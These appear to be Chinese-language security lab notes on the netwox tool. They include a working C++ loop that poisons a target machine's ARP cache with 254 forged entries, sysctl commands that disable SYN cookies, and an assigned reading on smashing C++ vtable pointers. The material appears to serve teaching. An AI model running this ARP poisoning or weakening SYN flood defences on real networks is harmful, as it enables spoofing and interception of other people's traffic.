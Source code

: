 输入参数后，单击Generate按钮，而不是单击run按钮。这将在窗口的底部显示一些文本。复制该文本并将其用作Netwox命令的参数。例如，对于前面提到的情况，输出将是:

```bash
#netwox 7 --device "Eth2" --filter "host 1.2.3.4 and tcp port 80" --rawip
```

现在我们知道了如何从命令行使用netwox工具，我们可以围绕它编写大量的功能代码。大多数现代语言如C、C++、Java、Perl、Ruby等都允许你执行随机文件。我们可以利用这些语言所提供的字符串操作能力和netwox工具来设计任意的自动攻击。考虑一下下面的程序。

```c++
#include <iostream>
using namespace std;
int main()
{
	char add[50];
	char ethadd[50];
	char arppoison[1000];
	for(int i=1;i<255;i++)
	{
	sprintf(add,"192.168.232.%d",i);
	sprintf(ethadd,"%x:%x:%x:%x:%x:%x",i,i,i,i,i,i);
	sprintf(arppoison,"netwox --ips \"192.168.232.131\"	--device \"Eth2\" --src-eth %s --src-ip %s",ethadd,add);
	system(arppoison);
	}
}
```

上面的代码试图在ARP缓存中投毒，该机器的IP地址为 IP地址为192.168.232.131的机器上的255个假值。由于以太网地址 是十六进制的，第20行构建了一个假的十六进制字符串，作为 以太网地址。这个程序将为IP地址192.168.232.1到192.168.232.255添加条目 到192.168.232.255在192.168.232.131的arp缓存中。
使用类似的策略可以设计出更复杂的攻击。

## linux命令

```bash
sysctl -q net.ipv4.tcp_max_syn_backlog
sysctl -w net.ipv4.tcp_syncookies=0
```

> `sysctl`  用于在内核运行时动态地修改内核的运行参数；
>
> > `-p`：从配置文件“/etc/sysctl.conf”加载内核参数设置；
> >
> > `-w`：当改变sysctl设置时使用此项；

- `net.ipv4.tcp_max_syn_backlog`：TCP syn 队列的最大长度, 是指定所能接受SYN同步包的最大客户端数量，即半连接上限；第一次握手的连接参数过大可能也会遭受syn flood攻击

- `net.ipv4.tcp_syncookies `：为1表示开启SYN cookies。当出现SYN等待队列溢出时，启用cookies来处理，可防范少量SYN攻击，默认为0，表示关闭

## Smashing C++ VPTRs

4、阅读Smashing C++ VPTRs这篇文章，阐述其原理。
http://www.phrack.org/issues.html?issue=56&id=8
